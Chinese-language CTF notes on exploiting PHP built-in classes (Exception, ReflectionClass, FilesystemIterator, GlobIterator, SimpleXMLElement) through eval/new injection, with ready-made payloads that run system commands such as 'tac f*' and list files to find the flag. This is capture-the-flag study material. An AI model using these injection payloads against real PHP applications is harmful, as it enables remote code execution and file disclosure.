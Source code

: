 ^
## **flag在某个类的属性里**
代码执行
```
要读取一个类信息
var_dump(get_class_vars('ctfshow'));

反射获取类信息
echo new ReflectionClass('ctfshow');



get_object_vars($this)是获取本类的属性和属性值，做为数组返回。
```

## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
## **存在XXE的类**
PHP的内置类
SimpleXMLElement
对象
```
// 解析 XML 数据
$xmlData = '<root><element>value</element></root>';
$xml = new SimpleXMLElement($xmlData);

// 解析 XML 文件 
URL$xmlUrl = 'http://example.com/example.xml';
$xml = new SimpleXMLElement($xmlUrl, 0, TRUE);
此时外链的xml是存在xxe即可。
```


^
## **搜索文件名的类**
列出当前目录.php结尾有什么文件。
```
new GlobIterator("./*.php",0);
GlobIterator&param=./*.php&param2=0
```